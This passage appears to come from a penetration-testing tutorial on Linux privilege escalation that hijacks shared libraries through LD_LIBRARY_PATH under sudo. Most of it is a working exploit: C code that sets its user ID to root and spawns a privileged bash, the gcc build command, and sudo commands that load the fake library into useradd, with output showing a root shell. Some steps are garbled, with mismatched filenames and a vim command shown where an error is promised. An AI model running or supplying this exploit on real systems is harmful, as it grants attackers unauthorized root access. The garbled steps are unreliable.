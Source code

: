 If we construct a shared library with the same name and set LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead of the one utilized by the program.

This will require some trial and error since some shared objects are used by the program and will result in an error like this one:

```shell
vim libaudit.so.1.c
```

The following code spawns a bash with UID, GID, and EUID as 0 (root):

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile the custom shared object with the same name as the one that we want to replace:

```shell
gcc -o libaudit.so.1 -shared -fPIC libaudit.so.1.c
```

Lastly, we will change the LD_LIBRARY_PATH to our current working directory:

```shell
user@pwn:~$ sudo LD_LIBRARY_PATH=. /usr/sbin/useradd
/usr/sbin/useradd: symbol lookup error: /usr/sbin/useradd: undefined symbol: audit_open
```

Since this shared object has a function that is needed by the `/usr/sbin/useradd` binary we need to find another shared object that we can use, to do this just keep renaming our custom shared object file `libaudit.so.1.c` to names of others shared objects found with GNU linker command `ldd /usr/sbin/useradd`. After some trial and error, I found this one:

```shell
user@pwn:~$ mv libcap-ng.so.0 libpcre2-8.so.0
user@pwn:~$ sudo LD_LIBRARY_PATH=. /usr/sbin/useradd test
root@pwn:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@pwn:/home/user# 
```

The shared object is loaded and now we have a root shell.

# Privilege Escalation via Shell Escape Sequences

Edit the sudo configuration file:

```shell
sudo visudo
```
